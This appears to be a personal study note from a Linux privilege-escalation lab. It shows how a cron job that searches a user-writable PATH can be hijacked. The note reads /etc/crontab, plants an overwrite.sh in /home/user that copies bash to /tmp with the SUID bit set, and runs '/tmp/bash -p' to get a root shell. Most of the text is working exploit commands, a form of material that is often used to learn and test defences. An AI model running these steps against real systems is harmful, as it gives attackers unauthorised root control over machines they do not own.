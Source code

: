 Here we will see how to modify the path on which the cron executes the scripts in order to force the execution of a malicious one.


<mark style="background: #BBFABBA6;">As we can see using:</mark>
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117155549.png]]
	- we have a path in which it searchs for the scripts and task to execute
	- it starts with `/home/user`
- ![[Pasted image 20250117155755.png]]
	- it searches for `overwrite.sh` into `/home/user`

So we can check on that path:
```bash
ls -la /home/user
```
- ![[Pasted image 20250117155703.png]]


Here we can see that the `overwrite.sh` doesn't exist.


# Creating malicious `overwrite.sh`

Now, if we have the permission to write into `/home/user` the game is done.

We just need to create a malicious file:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

Then we make it executable:
```bash
chmod +x /home/user/overwrite.sh
```


So now the system will do everything:
- it will create a binary `bash` in `/tmp` that is accessible by everyone
- ![[Pasted image 20250117160137.png]]


So we just need to run it:
```bash
/tmp/bash -p
```
- and the game is done
- ![[Pasted image 20250117160242.png]]

<mark style="background: #BBFABBA6;">We gain the root shell!</mark>

